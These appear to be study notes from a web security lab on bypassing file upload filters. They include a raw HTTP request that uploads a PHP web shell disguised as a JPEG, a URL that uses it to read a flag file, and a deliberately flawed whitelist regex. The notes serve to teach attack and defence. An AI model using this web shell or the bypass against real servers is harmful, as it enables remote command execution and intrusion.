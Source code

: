 ```sh
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryeYMfDOAbPrNVFPC3
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://83.136.251.68:55481
Referer: http://83.136.251.68:55481/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryeYMfDOAbPrNVFPC3
Content-Disposition: form-data; name="uploadFile"; filename="shell.phar"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>


------WebKitFormBoundaryeYMfDOAbPrNVFPC3--
```
And go to the `http://83.136.251.68:55481/profile_images/shell.phar?cmd=cat%20/flag.txt`

# Whitelist Fileters:
As discussed in the previus section the other type of the file extension validation is by utilizing a whitelist of allowed file extensions. A whitelist is generally more secure than the blacklist. The web
server would only allow th specified extensions, and the list would not need to be comprehnsive in covering uncommon extensions.

- Whitelist Extensions:
We see that we get a message saying onlu images are allowed, which may be more common in web apps than seing a blocked extensions type. Error messages do not reflected wich form of validation is begin utilized, so try fuzz for allowed extensions
as we did.
We can see that all variations of PHP extensions are blocked. The wordlist we used also contained other 'malicious' extensions that were not blocked adn were successfully uploaded.
Example of wuithe list test:
```php
<?php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
?>
```
We see that the script uses a Regular expression to test whether the filename contains any whitelist image extensions. The issue here lies whithin the regex, as it only checks whether the file name contains the extension and not if actuyally ends with it.
